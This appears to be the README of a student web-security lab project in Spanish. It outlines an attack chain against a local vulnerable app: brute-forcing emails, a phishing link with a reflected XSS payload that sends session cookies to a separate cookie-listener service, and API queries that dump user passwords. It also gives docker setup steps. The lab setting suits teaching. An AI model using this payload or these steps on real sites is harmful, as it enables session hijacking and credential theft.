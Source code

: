 # TP Seguridad Apps Web - Grupo 3

## Vector de ataque
1) Hacer fuerza bruta con Burp para obtener mails de usuarios
2) Enviar mails con link malicioso: `http://localhost:3000/html/home/user/dashboard/index.html?nombre=Juan%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();xhr.open(%22POST%22,%27http://localhost:4000/damecookie%27);xhr.withCredentials%20=%20true;xhr.send()%3C/script%3E`
3) Leer las cookies e intentar entrar al sitio
4) Ver los requests que se hacen
5) Hacer GET /api/v1/User y GET /api/v1/User?distinct=password para obtener un array de usuarios y un array de sus respectivas contraseñas
6) Buscar contraseñas hasheadas en https://hashtoolkit.com/reverse-hash


## Como levantar el ambiente
1) Tener instalado docker (Si no lo tenes podes, en linux podes instalarlo con estos simples comandos)
    `curl -fsSL https://get.docker.com -o get-docker.sh`
    `sh get-docker.sh`
2) Crear la imagen de docker del servidor, se peude hacer estando en /intracorp (de este repositorio) y corriendo
      `docker build . -t tp3-seguridad-web-g3-servidorweb`
3) Crear la red virtual en docker
      `docker network create tp-seguridad-web-g3`
4) Dejar corriendo tanto el servidor como mongod
      `docker container run --rm --network tp-seguridad-web-g3 -p 27017:27017 --name mongo -e MONGO_INITDB_ROOT_USERNAME='admin' -e MONGO_INITDB_ROOT_PASSWORD=='admin' mongo`
      `docker container run --rm --network tp-seguridad-web-g3 -p 3000:3000 tp3-seguridad-web-g3-servidorweb`
5) Para dejar corriendo el robador de cookies hay que crear la imagen, estando en /cookie-listener (de este repositorio) y corriendo
      `docker build . -t tp3-seguridad-web-g3-cookie-listener`
      `docker container run --rm --network tp-seguridad-web-g3 -p 4000:4000 tp3-seguridad-web-g3-cookie-listener`
